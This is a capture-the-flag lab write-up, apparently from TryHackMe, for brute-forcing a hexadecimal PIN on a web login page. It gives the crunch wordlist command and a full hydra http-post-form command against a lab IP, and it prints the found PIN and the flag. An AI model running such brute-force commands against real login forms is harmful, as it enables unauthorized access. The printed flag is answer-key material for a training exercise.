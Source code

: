 # Day 3 - [Brute-forcing] Hydra is Coming to Town
Additional walktrough [video](https://www.youtube.com/watch?v=UKAchyX7kDY)


## Steps
1. Connect to the TryHackMe's VPN (or use AttackBox)

2. The objective is to brute force PIN to locked Server Room's door
   * ![Door/PIN](Pictures/1.png)

3. Use `crunch` to generated possible PIN, based on criteria of:
   * Require 
     * **3 digits**
     * Number **0 to 9**, & **A to F** characters. ie, hexadecimal.
   * `crunch 3 3 0123456789ABCDEF -o 3digits.txt`
     * `3` the first number is the minimum length of the generated password
     *` 3` the second number is the maximum length of the generated password
     * `0123456789ABCDEF` is the character set to use to generate the passwords
     * `-o 3digits.txt` saves the output to the **3digits.txt** file
   * ![Crunch](Pictures/2.png)

3. Open pin.php **Page Source** to identify neccesary element information
   * The method is `post`
   * The URL is `http://10.10.49.118:8000/login.php`
   * The PIN code value is sent with the name `pin`
   * ![Page Source](Pictures/3.png)

4. Run hydra in same directory with generated PIN file (to make it easier)
   * `hydra -l '' -P 3digits.txt -f -v 10.10.49.118 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000`
     * `-l ''` indicates that the login name is blank as the security lock only requires a password
     * `-P 3digits.txt` specifies the password file to use
     * `-f` stops Hydra after finding a working password
     * `-v` provides verbose output and is helpful for catching errors
     * `10.10.49.118` is the IP address of the target
     * `http-post-form` specifies the HTTP method to use
     * `"/login.php:pin=^PASS^:Access denied"` has three parts separated by :
       * `/login.php` is the page where the PIN code is submitted
       *` pin=^PASS^` will replace ^PASS^ with values from the password list
       * `Access denied` indicates that invalid passwords will lead to a page that contains the text “Access denied”
     * `-s 8000` indicates the port number on the target
   * PIN is **`6F5`**
   * ![Hydra](Pictures/4.png)
   * ![Hydra](Pictures/5.png)

5. Use PIN obtained to login
   * ![PIN Login](Pictures/6.png)WW

6. Press Unlock Door to unlock the server room and get the flag
   * ![Unlock Door](Pictures/7.png)
   * **`THM{pin-code-brute-force}`**
   * ![Flag](Pictures/8.png)

7. Submit flag obtained 
    * ![Submit answer](Pictures/9.png)